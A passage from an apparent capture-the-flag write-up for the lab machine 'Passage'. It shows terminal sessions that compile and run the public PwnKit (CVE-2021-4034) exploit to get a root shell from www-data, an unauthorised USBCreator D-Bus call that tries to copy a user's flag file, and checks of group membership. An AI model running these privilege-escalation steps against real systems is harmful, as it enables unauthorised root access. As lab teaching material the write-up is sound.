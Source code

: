 ### Obtaining root flag
```
root@passage:/tmp# cat /root/root.txt
<Redacted root flag>
```

## Post-Exploitation
### CVE-2021-4034
Using linpeas script, we realize that this server is actually vulnerable to CVE-2021-4034. This CVE will immediately give us root privileges. Apart from that, we also realize that ```gdb``` is present on the server. This means that we can compile the code on the server and execute the exploit code.

To exploit this, we can first clone the exploit code from [here](https://github.com/berdav/CVE-2021-4034) onto our local machine. Afterwards, we can then transfer the directory to our machine. 

Next, we will compile the exploit code on the machine and execute the exploit code.

```
www-data@passage:/tmp/CVE-2021-4034/exploit$ make
make
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
www-data@passage:/tmp/CVE-2021-4034/exploit$ chmod +x cve-2021-4034
chmod +x cve-2021-4034
www-data@passage:/tmp/CVE-2021-4034/exploit$ ./cve-2021-4034
./cve-2021-4034
# whoami
whoami
root
# 
```

### Obtaining user and root flag using USBCreator

Looking at our linpeas script as a www-data/paul user, the machine is already vulnerable to USBCreator. However, we are unable to exploit it in this case due to a lack of permissions.

```
www-data@passage:/tmp$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/paul/user.txt /tmp/user.txt true
Creator.Image /home/paul/user.txt /tmp/user.txt truebject-path /com/ubuntu/USBCreator --method com.ubuntu.USB 
Error: GDBus.Error:org.freedesktop.DBus.Python.dbus.exceptions.DBusException: com.ubuntu.USBCreator.Error.NotAuthorized
(According to introspection data, you need to pass 'ssb')
```

With some research, we realize that for this exploit to work the user has to be in the sudoer group. However, the user paul and www-data is not in the sudoer group. On the other hand, navdav is in the suoder group and so the exploit can work. 

```
www-data@passage:/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
paul@passage:/tmp$ id
id
uid=1001(paul) gid=1001(paul) groups=1001(paul)
nadav@passage:~$ id
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
### Obtaining hashes